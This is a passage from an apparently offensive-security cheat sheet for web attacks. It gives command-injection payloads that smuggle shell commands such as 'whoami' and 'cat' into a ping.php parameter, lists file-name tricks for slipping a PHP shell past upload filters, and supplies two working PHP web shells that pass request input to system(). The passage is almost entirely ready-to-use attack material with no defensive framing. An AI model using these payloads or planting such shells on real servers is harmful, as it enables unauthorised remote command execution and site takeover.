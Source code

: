 ```bash
http://<target>/ping.php?ip=127.0.0.1;sleep 10
http://<target>/ping.php?ip=127.0.0.1|sleep 10

# Output redirection  
http://<target>/ping.php?ip=127.0.0.1;whoami > /tmp/output.txt
http://<target>/ping.php?ip=127.0.0.1;cat /tmp/output.txt
```

## Upload and Injection Attacks

### File Upload Bypass Techniques
```bash
# Different file extensions
shell.php
shell.php5
shell.phtml
shell.inc
shell.asp
shell.aspx
shell.jsp

# Double extension
shell.php.jpg
shell.asp.gif

# Null byte injection (older systems)
shell.php%00.jpg
shell.asp%00.png

# MIME type manipulation
# Change Content-Type header to image/jpeg while uploading PHP shell

# Case manipulation
shell.PHP
shell.AsP

# Alternative separators
shell.php;.jpg
shell.php:.jpg
```

### Web Shell Creation
```php
<?php
// Simple PHP web shell
if(isset($_GET['c'])) {
    system($_GET['c']);
}
?>

<?php
// More advanced PHP shell
if(isset($_REQUEST['cmd'])) {
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
} else {
    echo '<form method="post"><input type="text" name="cmd" /><input type="submit" value="Execute" /></form>';
}
?>
```